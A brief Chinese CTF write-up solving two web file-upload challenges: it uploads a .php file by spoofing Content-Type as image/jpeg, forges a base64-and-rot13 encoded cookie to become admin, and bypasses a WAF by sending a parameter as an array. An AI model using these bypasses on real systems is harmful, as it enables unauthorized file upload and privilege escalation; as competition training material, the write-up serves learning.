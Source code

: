 ```yaml
---
title: 两道上传小题
date: 2018-03-21 00:00:02
categories:
- CTF/Web
tags: 百越杯 强网杯 文件上传 数组绕过
--- 
```


## Do you know upload？

第三届百越杯上传小题：直接改Content-Type: image/jpeg文件名php都不用改，即可上传
```
------WebKitFormBoundarytJvTA9B9Lb4TVKYS
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg
```

## who are you?

第二届强网杯上传小题：提示Sorry. You have no permissions，发现cookie里有一个role=Zjo1OiJ0aHJmZyI7字段base64解开还有一层rot13。

```php

<?php
// echo str_rot13(base64_decode('Zjo1OiJ0aHJmZyI7'));
$a = 's:5:"admin";';
echo base64_encode(str_rot13($a)); 
?>
```

修改为admin然后替换cookie，得到提示：

```html
<!-- $filename = $_POST['filename']; $data = $_POST['data']; -->
</html>
```

POST发现尖括号被waf拦截，参数名使用data[]代替data绕过判断即可上传
